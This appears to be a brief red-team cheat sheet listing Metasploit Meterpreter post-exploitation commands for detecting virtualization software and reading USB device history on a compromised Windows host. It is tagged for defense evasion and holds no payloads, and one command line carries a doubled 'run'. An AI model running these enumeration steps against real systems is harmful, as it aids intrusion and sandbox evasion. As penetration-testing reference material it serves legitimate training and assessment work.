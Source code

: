 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - defense-evasion
  - metasploit-framework
  - windows
---
```

# Metasploit

## 01 - Enumerate Virtualization Software

```
meterpreter > run post/windows/gather/checkvm

meterpreter > run run post/multi/gather/enum_vbox

meterpreter > run post/multi/gather/find_vmx
```

## 02 - Enumerate USB Activity

```
meterpreter > run post/windows/gather/usb_history
```